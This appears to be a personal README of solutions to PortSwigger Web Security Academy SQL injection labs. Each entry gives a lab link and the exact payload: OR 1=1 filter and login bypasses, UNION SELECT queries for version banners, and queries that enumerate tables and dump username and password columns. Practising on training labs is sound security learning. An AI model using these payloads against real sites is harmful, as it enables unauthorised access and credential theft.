 # PS-academy-Labs

1. https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data
     /filter?category=Clothing%2c+shoes+and+accessories%27%20OR%201%3D1%20--%20
     ' OR 1=1 -- 
2. https://portswigger.net/web-security/sql-injection/lab-login-bypass
   Solution #1
   administrator
   ' OR 1=1 --

   Solution #2
   administrator'--
  
3. https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle
   /filter?category=%27+UNION+SELECT+BANNER,NULL+FROM+v$version--
   
3. https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft
     GET /filter?category='+UNION+SELECT+@@version,+NULL# HTTP/2

5. https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle
   GET /filter?category='+UNION+SELECT table_name,NULL FROM information_schema.tables-- HTTP/2
   GET /filter?category='+UNION+SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_ocqdko'-- HTTP/2
   GET /filter?category='+UNION+SELECT username_qrvfyq,password_ofzdsw FROM users_ocqdko-- HTTP/2


6. https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle
     GET /filter?category='+UNION+SELECT+NULL,NULL+FROM+dual--
     GET /filter?category='+UNION+SELECT+table_name,NULL+FROM+all_tables--
     GET /filter?category='+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_BEQQVS'--
     GET /filter?category='+UNION+SELECT+USERNAME_YUOEWA,PASSWORD_XHXKTJ+FROM+USERS_BEQQVS--
   
8. sd
